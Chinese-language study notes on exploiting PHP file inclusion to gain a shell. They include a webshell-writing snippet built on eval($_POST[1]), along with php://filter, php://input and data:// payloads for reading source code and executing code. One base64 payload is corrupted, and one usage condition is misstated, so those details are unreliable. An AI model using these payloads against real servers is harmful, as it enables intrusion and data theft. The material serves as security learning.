 - 包含日志文件getshell-->为了避免在web中进行url编码,进行抓包修改,或者`构造报错信息写错误日志`

- 远程包含文件写shell

- ```php
  //在文件夹下会看到生成shell.php,内容为<?php eval($_POST[1]);?>,当直接包含图片时,代码就会被执行
  <?php
  fputs(fopen('shell.php','w'),'<?php eval($_POST[1]);?>');
  ?>
  ```

- 使用`php伪协议`getshell

------

#### php伪协议

- php伪协议就是`支持的协议`与`封装协议`

- | file:// |  访问本地文件系统   |
  | :-----: | :-----------------: |
  | http:// |   访问http(s)网址   |
  | ftp://  |   访问ftp(s),URLS   |
  | php://  | 访问各个输入/输出流 |
  | zlib:// |       压缩流        |
  | data:// |    数据(RFC2397)    |
  | rar://  |         RAR         |

- `file://协议`

  - 1.用途:访问本地系统文件
  - 2.使用条件:allow_url_fopen:off/on  allow_url_include:off/on	 -->file://在两个配置默认为off可正常使用
  - 3.使用方法:file://文件的绝对路径和文件名
  - 4.举例:[?path=file://c:/windows/system32/drivers/etc/hosts]
  - ![image-20240908162618540](/assets/image-20240908162618540.png)

- `php://filter`

  - 1.用途:常用于读取文件/源码
  - 2.使用条件:`allow_url_fopen:off/on`,`allow_url_fopen:off/on`两个均为`off`情况下是可以使用的
  - 3.使用:[?path=php://filter/read=convert.base64-encode/resource=文件.php]
  - 4.注意:通过指定末尾的文件,可以读取base64`加密`后的文件源码,之后再base64`解码`.虽然不能直接获取到shell,但是能读取`敏感信息`
  - php://filter协议和file://协议的区别:`file`协议`只能`使用`绝对路径`,`fileter`协议相对绝对`均可`
  - ![image-20240908163204755](/assets/image-20240908163204755.png)

- `php://input`

  - 用途:可以访问请求的原始数据的只读流,将`post请求中的数据作为php代码执行`
  - 使用条件:allow_url_fopen:off/on,allow_url_include:`on`
  - 使用方法:?file=php://input
  - [POST]:<?php phpinfo()?> (执行post data中的内容)

  ![image-20240907163422325](assets/image-20240907163422325-1725856576036-14.png)

- `data://`

  - 用途:执行接收到的数据中包含的php代码
  - 使用条件:allow_url_fopen:`on`,allow_url_include=`on`
  - 使用方法:?file=data:text/plain,<?php phpinfo();?>
  - --------?file=data:text/plain;base64,PD9waHA工程GhwaWmbygpPz4=
  - --------?file=data://text/plain,<?php phpinfo();?>
  - http://192.168.1.1/include.php?file=data://text/plain,<?=phpinfo();?>

  ![image-20240908171429298](assets/image-20240908171429298-1725856558979-12.png)

  ```